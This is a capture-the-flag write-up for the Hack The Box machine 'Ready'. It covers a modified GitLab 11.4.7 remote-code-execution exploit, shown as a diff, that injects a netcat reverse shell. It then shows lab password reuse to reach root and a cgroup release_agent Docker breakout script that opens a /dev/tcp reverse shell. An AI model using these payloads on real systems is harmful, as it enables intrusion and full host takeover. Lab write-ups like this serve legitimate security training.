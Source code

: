 ```yaml
---
layout: post
title: "Ready "
lang: en
categories:
  - writeups
tags:
  - security
  - writeups
  - htb
  - pe
  - linux
  - web
  - docker
date: 2021/05/15 20:57:00
thumbnail: /img/HackTheBox/ready.png

toc: true
---
```

# Information



- **Name:** Ready
- **Profile:** [www.hackthebox.eu](https://app.hackthebox.eu/machines/304)
- **Difficulty:** Medium
- **OS:** Linux
- **Points:** 30

![Ready](/img/HackTheBox/ready.png)



## Overview

Install tools used in this WU on BlackArch Linux:

```
$ sudo pacman -S nmap exploit-db pwncat
```

## Network enumeration

Port and service scan with nmap:

```
# Nmap 7.91 scan initiated Fri Feb  5 18:56:03 2021 as: nmap -sSVC -p- -v -oA nmap_scan 10.10.10.220
Nmap scan report for 10.10.10.220
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 18:56:34 2021 -- 1 IP address (1 host up) scanned in 30.44 seconds
```

## Web discovery

We have a Gitlab server at http://10.10.10.220:5080

We can register and once authenticated at http://10.10.10.220:5080/help
we can find the version is 11.4.7.

`searchsploit gitlab 11.4.7` shows us 3 RCE.

Exploring for public projects at http://10.10.10.220:5080/explore/projects
we can see `dude/ready-channel`.

## Web exploitation

All the exploits are dirty and broken so I picked the first and had to modify it:

```plaintext
$ searchsploit -p 49334.py
  Exploit: GitLab 11.4.7 - RCE (Authenticated)
      URL: https://www.exploit-db.com/exploits/49334
     Path: /usr/share/exploitdb/exploits/ruby/webapps/49334.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

$ cp /usr/share/exploitdb/exploits/ruby/webapps/49334.py .
```

`diff /usr/share/exploitdb/exploits/ruby/webapps/49334.py 49334.py`

```diff
22c22
< parser.add_argument('-P', help='reverse shell port', required=True)
---
> parser.add_argument('-x', help='reverse shell port', required=True)
29c29
< local_port = args.p
---
> local_port = args.x
59c59
<     lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
---
>     lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + ' -e /bin/bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
```

Then we can launch the exploit.

```plaintext
$ python 49334.py -u cyfun -p password -g http://10.10.10.220 -l 10.10.14.172 -x 9999
```

We receive the reverse shell on our listener:

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.220:59942 (family 2/IPv4, TCP)
id
uid=998(git) gid=998(git) groups=998(git)
```

Let's find the flag:

```
$ find /home -name user.txt -type f
/home/dude/user.txt
```

## Privilege Escalation of Machine : from git to root

We are in a docker container:

```plaintext
git@gitlab:~$ ls -lh /.dockerenv
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

There is the password of root (container).

```
git@gitlab:~$ cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```
In `/var/backup` there is a `docker-compose.yml` explaining the origin of
`root_pass`.

```yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16
```

There is a password in gitlab config:

```
git@gitlab:/opt/backup$ grep -v '^#' gitlab.rb | tr -d '\n' && echo
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Then we can try password reuse on the root account.

```
git@gitlab:/opt/backup$ su root
Password:
root@gitlab:/opt/backup# cd
root@gitlab:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we have to escape from the container.

I used the second PoC from [HackTricks - Docker breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.172/8888 0>&1" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

And received the reverse shell:

```plaintext
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.220:34958 (family 2/IPv4, TCP)
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@ready:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ready:/# cat /root/root.txt
b7f98681505cd39066f67147b103c2b3
```
